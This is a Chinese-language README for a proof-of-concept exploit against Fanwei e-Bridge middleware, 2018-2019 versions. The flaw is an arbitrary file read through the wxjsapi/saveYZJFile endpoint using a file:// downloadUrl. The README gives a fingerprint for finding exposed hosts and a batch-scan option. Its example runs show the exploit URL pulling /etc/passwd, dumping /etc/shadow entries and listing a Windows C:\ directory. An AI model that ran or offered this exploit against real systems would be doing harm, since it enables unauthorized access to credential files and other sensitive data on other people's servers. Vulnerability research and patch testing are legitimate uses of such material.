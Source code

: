 # fanweiOA-saveYZJFile任意文件读取漏洞

# 漏洞描述
泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

# 影响版本
泛微云桥 e-Bridge 2018-2019 多个版本

# 网络测绘
title="泛微云桥e-Bridge"

# 使用方法
optional arguments:
  -h, --help                    show this help message and exit
  -i IP, --ip IP                单个ip地址
  -l LIST, --list LIST          ip列表 - 批量扫描
  -t TARGET, --target TARGET    访问的目录或文件 - 完整路径
  
# 例子
```shell
python poc.py -i xx.xx.xx.xx

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable
```

Linux系统
```shell
python poc.py -i xx.xx.xx.xx -t etc/shadow

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: linux http://xx.xx.xx.xx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt
[+] http://xx.xx.xx.xx maybe vulnerable

------------results------------
root:*:19001:0:99999:7:::
bin:*:15980:0:99999:7:::
daemon:*:15980:0:99999:7:::
adm:*:15980:0:99999:7:::
......
```

Windows系统
```shell
python poc.py -i http://xx.xx.xx.xx:8088 -t C:\

[+] E-Bridge saveYZJFile任意文件读取漏洞 OS: windows http://xx.xx.xx.xx:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt
[+] http://xx.xx.xx.xx:8088 maybe vulnerable

------------results------------
$Recycle.Bin
360SANDBOX
Boot
bootmgr
Config.Msi
Documents and Settings
inetpub
pagefile.sys
PerfLogs
ProgramData
Program Files
Program Files (x86)
Recovery
System Volume Information
Users
```




